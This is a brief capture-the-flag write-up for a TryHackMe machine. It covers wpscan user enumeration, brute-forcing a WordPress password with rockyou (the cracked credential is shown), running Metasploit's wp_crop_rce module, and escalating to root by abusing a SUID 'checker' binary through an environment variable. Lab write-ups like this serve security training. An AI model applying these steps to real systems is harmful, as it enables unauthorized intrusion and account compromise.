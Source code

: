 # Easy THM Box

machine ip : 10.10.40.170

## Enumeration
`wpscan --url HOST-IP --enumerate`
We find a username there -- `kwheel`

Running a bruteforce for the password using wpscan gives us the creds.
`wpscan --url HOST-IP --usernames kwheel -P rockyou.txt`
kwheel - cutiepie1			## wpscan

## Exploit
msfconsole -- goto wp_crop_rce

## Priv Esc
I ran the command `find / -perm -u=s -type f 2>/dev/null` to find any unusual setuids.

Odd setuid was /usr/sbin/checker -- which checks if ur an admin or not.

Download that using meterpreter on download command.

Checker converting it to c code using ghidra we get that *admin env variable needs to be anything but a empty string*.

So we "export admin=somethinglessOffensive"

We can run it `/usr/sbin/checker` and we get root access because now admin is not NULL.

After that we can find the user.txt flag using the find command.
